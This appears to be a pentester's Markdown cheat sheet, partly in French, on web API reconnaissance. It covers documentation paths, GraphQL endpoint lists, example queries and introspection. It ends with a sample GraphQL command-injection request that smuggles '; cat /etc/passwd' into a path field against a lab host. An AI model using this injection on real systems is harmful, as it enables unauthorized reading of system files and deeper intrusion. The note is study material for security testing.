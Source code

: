 # Web API

## standard type

SOAP
RESTful
GrpahQL

## Data Type

XML
JSON

## common content type:

application/json
application/xml 
application/x-www-form-urlencoded 

## Convention

| Convention | Meaning |
-------------------------
| ":" or "{}" | variables |
| "[]" | optional input |
| "||" | possible values that can be used. |
| "< >" | ex. <find-function> Angle brackets represent a DomString, which is a 16-bit string. |

## tools généralement utilisés pour les tests (hors sécu)

Postman
Client http du même langage de programmation
OWASP Zap

## Doc pour la collecte d'info

* https://www.programmableweb.com/
* shodan

### liste de repertoires pour trouver la doc:

/docs
/api/docs
/documentation
/developers/documentation

### liste de sous domaines pour trouver la doc

dev.
api.

### detect graphQL

/graphql
/v1/graphql
/api/graphql
/v1/api/graphql
Attacking GraphQL   291
/graph
/v1/graph
/graphiql
/v1/graphiql
/console
/query
/graphql/console
/altair
/playground

### exemples GraphQL

#### Requetes classiques:

lister les noms et pays de tous les clients :

```json
query {clients { name, country } }
```

Obtenir le client avec l'id 1

```json
query { client (id:1) { name, country } }
```

Appeller une fonction spécifique

```json
{
 clientsByCountry(countryId: 1) {
    id
    name
    country
  }
}
```


#### récupération du shéma (introspection)

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

#### exemple type d'injection GraphQL retournant le fichier /etc/passwd

```sh
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json

{"variables": {"scheme": "http",
"path": "/ ; cat /etc/passwd",
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!)
{\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme)
{\n result\n }\n }"}
```
